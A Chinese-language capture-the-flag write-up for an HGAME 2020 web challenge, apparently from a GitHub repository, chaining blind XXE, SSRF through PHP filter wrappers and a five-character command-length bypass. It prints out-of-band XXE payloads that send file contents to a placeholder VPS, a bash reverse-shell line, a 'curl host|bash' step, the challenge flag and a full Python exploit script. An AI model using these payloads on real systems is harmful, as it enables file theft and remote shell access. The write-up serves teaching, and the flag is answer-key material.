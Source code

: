 ## 考点
`PHP BlindXXE` `SSRF` `PHP伪协议` `命令执行绕过`

## flag
`hgame{XxE!@SsrF_4nD_f1lt3rEd_Rc3_1s_Co0l!}`

## 环境搭建
```bash
docker network create --subnet=172.21.0.0/24 docker-br0
docker-compose up -d
```
## WriteUp
### 0x00 BlindXXE

抓包 发现站点通过XML与后端交换数据，因此考虑xxe漏洞。并且发现无回显，则考虑BlindXXE.
payload:

```xml-dtd
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://xxx.xxx.xxx.xxx/xxe.dtd">%remote;%int;%trick;]>
```
vps上:
```xml-dtd
<!ENTITY % payl SYSTEM 'php://filter/read=convert.base64-encode/resource=/etc/hosts'>
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.xxx.xxx.xxx:5555/?p=%payl;'>">
```
vps上监听5555端口，可得读到的文件内容。

### 0x01 SSRF

读取`/etc/hosts`发现存在内网站点`http://172.20.0.76`
因此设法访问内网站点,这里有一个tips:

> 当使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错无法得到文件内容，因此需要使用 php过滤器的一个压缩的方法zlib.deflate

```xml-dtd
<!ENTITY % payl SYSTEM 'php://filter/zlib.deflate/convert.base64-encode/resource=http://172.20.0.76/'>
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.xxx.xxx.xxx:5555/?p=%payl;'>">
```

解压: 

```http
php://filter/read=convert.base64-decode/zlib.inflate/resource=
```

得到内网站点内容。

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);

$sandbox = '/var/www/html/sandbox/'. md5("hgame2020" . $_SERVER['REMOTE_ADDR']);;
@mkdir($sandbox);
@chdir($sandbox);

$content = @$_GET['v'];
if (isset($content)) {
    $cmd = substr($content,0,5);
    system($cmd);
}else if (isset($_GET['r'])) {
    system('rm -rf ./*');
}

/*   _____ _    _ ______ _      _        _____ ______ _______   _____ _______   _
  / ____| |  | |  ____| |    | |      / ____|  ____|__   __| |_   _|__   __| | |
 | (___ | |__| | |__  | |    | |     | |  __| |__     | |      | |    | |    | |
  \___ \|  __  |  __| | |    | |     | | |_ |  __|    | |      | |    | |    | |
  ____) | |  | | |____| |____| |____ | |__| | |____   | |     _| |_   | |    |_|
 |_____/|_|  |_|______|______|______( )_____|______|  |_|    |_____|  |_|    (_)
                                    |/

*/ 
```

可以发现，代码中截取了我们传入的字符串`$content`的前五个字符，传给`system`函数执行命令，但我们读取flag超过五个字符，因此需要想办法绕过。

### 0x02 命令执行绕过

在linux中，一条命令可以通过符号`\`分割为多行不影响执行结果。如

```bash
annevi@ubuntu:~# cat test
ec\
ho \
hello!
annevi@ubuntu:~# sh test
hello!
```

因此我们可以利用这个特性，将超长的命令分割为多段来执行。

为了让服务器记住我们先前所输入的命令片段，我们可以利用重定向符`>` `>>`来在当前目录创建文件。

文件名即为我们所需的命令片段。

为了让创建的文件按照我们想要的顺序排列，可以使用`ls -t`使得文件按照创建时间先后排序。

而`ls -t>a`超长度限制，因此我们需要用`ls>_`来构造出`ls -t>a`

如下:

```bash
>ls\\
ls>_
>\ \\
>-t\\
>\>a
ls>>_
```

由于没有说flag在哪，因此需要反弹shell方便找flag的位置。

使用简单的bash反弹：

```bash
bash -i >& /dev/tcp/0.0.0.0/2333 0>&1
```

该语句用上述方法构造比较麻烦，因此可将上述语句放在服务器(0.0.0.0)上再通过:

```bash
curl 0.0.0.0|bash
```

即可成功反弹shell。

### 0x03 exp

```python
import requests
import urllib.parse
import time

url_vps = "http://xxx.xxx.xx.xxx"
url_chal = "http://bdctr.hgame.day-day.work/submit.php"
url_lan = "http://172.21.0.76/?token=xxxx&v={}"
url_rm = "http://172.21.0.76/?token=xxxx&r"
url_lan_t = ''
payload_vps = """<!ENTITY % payl SYSTEM 'php://filter/zlib.deflate/convert.base64-encode/resource={}'>
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://xxx.xxx.xxx.xxx/?p=%payl;'>">
"""
payload_a = '<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://xxx.xxx.xxx.xxx/xxe.dtd">%remote;%int;%trick;]>'

def attack(payload_vps,payload):
    url_lan_t = url_lan.format(urllib.parse.quote(payload))
    data = {'a':payload_vps.format(url_lan_t)}
    print(data)
    requests.post(url_vps,data=data)
    time.sleep(0.5)
    requests.post(url_chal,data=payload_a)

def rm():
    data = {'a':payload_vps.format(url_rm)}
    requests.post(url_vps,data=data)
    time.sleep(0.5)
    requests.post(url_chal,data=payload_a)

rm()

# 将ls -t 写入文件_
cmd_list=[
    ">ls\\",
    "ls>_",
    ">\ \\",
    ">-t\\",
    ">\>a",
    "ls>>_"
]

# curl 0.0.0.0|bash
cmd_list2=[
    ">bash",
    ">\|\\",
    ">0\\",
    ">0.\\",
    ">0.\\",
    ">0.\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
]

for i in cmd_list:
    attack(payload_vps,str(i))
    time.sleep(1)

for i in cmd_list2:
    attack(payload_vps,str(i))
    time.sleep(1)

attack(payload_vps,"sh _")
time.sleep(1)
attack(payload_vps,"sh a")
```




